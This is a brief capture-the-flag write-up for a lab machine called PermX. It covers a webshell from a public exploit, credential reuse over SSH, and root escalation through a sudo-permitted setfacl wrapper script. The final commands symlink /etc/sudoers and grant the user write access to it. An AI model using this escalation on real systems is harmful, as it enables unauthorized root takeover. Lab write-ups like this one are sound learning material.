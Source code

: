 # PermX \[Easy]

Found the vhost this time, got the public exploit and landed on a webshell. Transfer LinPeas and LinEnum to see cheeky results, learn how to read this stuff

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

User passwd for mtz, ssh w these credentials for user.txt

sudo -l shows us a acl.sh script which can be run

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The last line mentions the command its trying to execute which is to change perms on any file in /home/mtz as long as root is not involved

```
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

We made a **symbolic link to sudoers list** and added our username to it and gave rw perms as shown in last ss for root.txt
